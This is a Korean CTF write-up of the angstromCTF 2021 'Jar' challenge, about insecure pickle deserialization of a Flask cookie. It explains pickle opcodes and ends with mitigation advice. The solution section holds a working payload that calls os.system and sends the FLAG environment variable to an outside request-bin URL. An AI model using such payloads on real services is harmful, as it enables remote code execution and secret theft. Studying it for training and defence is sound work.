

# Jar

# 0. 문제 정보

| 항목 | 내용 |
| --- | --- |
| 문제명 | Jar |
| 원본 대회 | angstromCTF 2021 |
| 분야 | Web · Insecure Deserialization |
| 난이도 | 초급 · 약 2/5 |
| 접속 주소 | `http://localhost:5000` |
| 플래그 형식 | `FLAG{...}` |

---

# 1. 문제 요약



- contents 헤더에 cookie를 통해 pickle 객체 저장
- Pickle 직렬화, 역직렬화 과정에서 코드를 실행
- Pickle 객체를 /에서 렌더링해서 보여줌

---

# 2. 문제 분석

문제 코드 

```python
flag = os.environ.get('FLAG', 'actf{FAKE_FLAG}')
#환경변수에 flag값 가져옴
@app.route('/')
def jar():
	contents = request.cookies.get('contents')
	if contents: 
		items = pickle.loads(base64.b64decode(contents))
	else: 
		items = []
	return '<form method="post" action="/add" style="text-align: center; width: 100%"><input type="text" name="item" placeholder="Item"><button>Add Item</button>' + \
		''.join(f'<div style="background-color: white; font-size: 3em; position: absolute; top: {random.random()*100}%; left: {random.random()*100}%;">{item}</div>' for item in items)

@app.route('/add', methods=['POST'])
def add():
	#contents가 있으면 쿠키에서 pickle로 넣어두기
	contents = request.cookies.get('contents')
	if contents: 
		items = pickle.loads(base64.b64decode(contents))
	else: 
		items = []

	#item에서 가져오기 
	items.append(request.form['item'])
	response = make_response(redirect('/'))
	response.set_cookie('contents', base64.b64encode(pickle.dumps(items)))
	return response
```

## Pickle

- pickle은 파이썬 객체를 pkl파일로 저장 및 로드가 가능하게 만들어 주는 라이브러리
- pickle을 pkl파일로 만들 때 객체를 opcode로 변환,  opcode는 load시에 파이썬 객체를 만들어 주는 코드로 메모리 할당과 주소를 반환 등의 객체 복원
- 사실상 pkl파일은 malloc 및 set 으로 객체를 만들어주는 작은 코드 파일
- load시에 opcode에 악의적인 opcode를 실행해 system함수 실행 가능

```python
I / BININT 계열: 정수 생성
S / SHORT_BINUNICODE: 문자열 생성
] / EMPTY_LIST: 빈 리스트 생성
} / EMPTY_DICT: 빈 딕셔너리 생성
( / MARK: 여러 값을 묶기 위한 시작 지점 표시
a / APPEND: 리스트에 값 하나 추가
e / APPENDS: 여러 값을 리스트에 추가
s / SETITEM: 딕셔너리에 key-value 추가
t / TUPLE: MARK 이후 값들을 tuple로 만듦
p / PUT, g / GET: 객체를 memo에 저장하거나 다시 가져옴
c / GLOBAL: 모듈에서 함수나 클래스를 가져옴
R / REDUCE: callable과 인자를 이용해서 실제 호출
. / STOP: 역직렬화 종료
```

```python
pickle 파일
↓
객체를 재구성하기 위한 작은 프로그램
↓
pickle.loads()

pickle VM이 opcode를 순서대로 실행(`opcode`는 그냥 operation code, 즉 “무슨 동작을 할지 나타내는 코드”라는 일반적인 개념)
↓
Python 객체 완성
```

---

# 3. 풀이과정

1. pickle객체 로드하는 과정에서 flag가 변수 취급 되는 지 확인

```python
import pickle
import base64
data = {'flag': 'flag'}, #['flag'], 'flag'

with open("data.pkl", "wb") as f:
    pickle.dump(data, f)
```

https://base64.guru/converter/encode/file ← 파일 base64

1. 안되서 공식 문서 확인 [https://docs.python.org/ko/3.9/library/pickle.html#](https://docs.python.org/ko/3.9/library/pickle.html#)

```python
>>> import pickle
>>> pickle.loads(b"cos\nsystem\n(S'echo hello world'\ntR.") <- 이게 가능함
```

1. pickle opcode를 바이트 코드로 작성

```python
```python
import base64

url = "https://acxkstk.request.dreamhack.games"

cmd = (
    "python3 -c 'import os,urllib.parse,urllib.request;"
    f'urllib.request.urlopen("{url}/?flag="+urllib.parse.quote(os.environ["FLAG"]))'
)

payload = (
    b"cposix\nsystem\n"#<- posix에서 system함수를 가져옴
    + b"(S'" + cmd.encode() + b"'\ntR"# 문자열 생성 후 call
    + b"0"
    + b"]"# list생성
    + b"."#역직렬화 종료
)

print(base64.b64encode(payload).decode())
```
```

1. 프록시에서 확인


---

# 4. 보안조치

- 신뢰할 수 없는 입력에 `pickle.loads()`를 쓰지 않기 사용자 쿠키, 요청값, 업로드 파일 등에는 JSON 같은 안전한 형식을 사용.
- 꼭 pickle을 써야 하면 무결성 검증하기 HMAC/서명으로 데이터가 서버가 만든 것인지 확인한 뒤 역직렬화.
- 역직렬화 가능한 타입 제한하기 커스텀 `Unpickler`로 허용된 클래스/함수만 로드하고 `os.system` 같은 위험한 전역 객체는 차단.

---

# 5. 기록